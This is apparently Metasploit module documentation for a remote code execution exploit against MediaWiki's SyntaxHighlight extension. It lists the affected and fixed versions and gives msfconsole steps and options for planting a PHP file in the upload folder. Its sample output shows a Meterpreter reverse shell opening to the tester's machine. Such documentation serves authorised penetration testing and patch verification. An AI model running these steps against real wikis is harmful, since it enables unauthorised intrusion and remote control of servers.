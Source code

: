 ## Vulnerable Application

  Any MediaWiki installation with SyntaxHighlight version 2.0 installed & enabled. This extension ships with the AIO package of MediaWiki 1.27.x & 1.28.x. A fix for this issue is included in MediaWiki version 1.28.2 and version 1.27.3.

## Verification Steps

  1. `use exploit/multi/http/mediawiki_syntaxhighlight`
  2. `set RHOST <ip target site>`
  3. `set TARGETURI <MediaWiki path>`
  4. `set UPLOADPATH <writable path in web root>`
  5. optionally set `RPORT`, `SSL`, and `VHOST`
  6. `exploit`
  7. **Verify** a new Meterpreter session is started
  
## Options

  **TARGETURI**

  The MediaWiki base path, the URL path on which MediaWiki is exposed. This is normally `/mediawiki`, `/wiki`, or `/w`.

  **UPLOADPATH**

  Folder name where MediaWiki stores the uploads, make sure to use a relative path here. For a regular installation this is the `images` folder. This folder needs to be writable by MediaWiki and accessible from the web root. The exploit will try to create a PHP file in this location that will later be called through the web server.

  **CLEANUP**

  Set this to true (the default) to unlink the PHP file created by this exploit module. The cleanup code will only be called when the exploit is successful.

  **USERNAME**

  In case the wiki is configured as private, a read-only (or better) account is needed to exploit this issue. Provide the username of that account here.

  **PASSWORD**

  In case the wiki is configured as private, a read-only (or better) account is needed to exploit this issue. Provide the password of that account here.

## Sample Output
### MediaWiki 1.27.1-2 on Ubuntu 16.10

```
msf > use exploit/multi/http/mediawiki_syntaxhighlight 
msf exploit(mediawiki_syntaxhighlight) > set RHOST 192.168.146.137
RHOST => 192.168.146.137
msf exploit(mediawiki_syntaxhighlight) > set TARGETURI /mediawiki
TARGETURI => /mediawiki
msf exploit(mediawiki_syntaxhighlight) > exploit

[*] Started reverse TCP handler on 192.168.146.197:4444 
[*] Local PHP file: images/bwpqtiqgmeydivskjcjltnldb.php
[*] Trying to run /mediawiki/images/bwpqtiqgmeydivskjcjltnldb.php
[*] Sending stage (33986 bytes) to 192.168.146.137
[*] Meterpreter session 1 opened (192.168.146.197:4444 -> 192.168.146.137:55768) at 2017-04-29 14:27:03 +0200
```
